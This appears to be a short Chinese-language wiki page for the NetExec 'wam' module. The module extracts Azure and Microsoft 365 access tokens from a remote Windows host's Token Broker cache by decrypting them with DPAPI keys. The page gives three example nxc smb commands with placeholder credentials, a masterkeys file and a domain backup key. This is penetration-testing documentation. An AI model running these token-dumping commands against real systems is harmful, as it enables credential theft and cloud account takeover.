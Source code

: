 ```yaml
---
description: 从令牌代理缓存中导出 Azure 和 Microsoft 365 的访问令牌。
---
```


# 🆕 导出令牌代理缓存

{% hint style="warning" %}
你需要在远程目标上至少具有本地管理员权限，如果你的用户是本地账户，请使用 **--local-auth** 选项
{% endhint %}

桌面上的 Microsoft 365 和 Azure 应用程序会将访问令牌存储到令牌代理缓存中。这些令牌使用用户 DPAPI 存储。你可以使用 `wam` 模块来解密它们。更多信息请参见 [https://blog.xpnsec.com/wam-bam/](https://blog.xpnsec.com/wam-bam/)

```
nxc smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' -M wam
nxc smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' -M wam --mkfile masterkeys.txt
nxc smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' -M wam --pvk domain_backup_key.pvk
```

{% embed url="https://blog.xpnsec.com/wam-bam/" %}
